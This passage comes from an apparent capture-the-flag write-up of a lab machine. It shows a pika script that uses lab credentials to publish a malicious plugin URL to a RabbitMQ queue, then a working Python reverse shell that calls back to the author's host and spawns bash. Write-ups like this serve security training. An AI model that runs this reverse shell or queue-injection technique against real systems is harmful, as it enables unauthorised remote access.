 using the message I had found in the `yuntao` folder in `felamos` home folder I set the Queue and routing\_key to be `plugin_data`, however it seems like setting the Queue caused an error.

```python
#!/usr/bin/env python3

import pika

credentials = pika.PlainCredentials('yuntao', 'EashAnicOc3Op')

parameters = pika.ConnectionParameters('10.10.10.190',
        5672,
        '/',
        credentials)
connection = pika.BlockingConnection(parameters)

channel = connection.channel()

#channel.queue_declare(queue='plugin_data')

channel.basic_publish(exchange='',
        routing_key='plugin_data',
        body='http://127.0.0.1:8090/rtme.py')

print(" [x] 'Hello World!'")

connection.close()
```

I ran a python http server on the local machine since the note in the `yuntao` folder had mentioned entering a url for plugins. Next I ran the script again and was able to see it connect to my server on the dyplesher machine.

```python
#!/usr/bin/env python3

import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.connect(("10.10.14.216",12523))

os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")
```

I wrote a python reverse shell back to my machine

```text
MinatoTW@dyplesher:/dev/shm$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
127.0.0.1 - - [12/Oct/2020 14:09:47] "GET /rtme.py HTTP/1.0" 200 -
^C
Keyboard interrupt received, exiting.
```
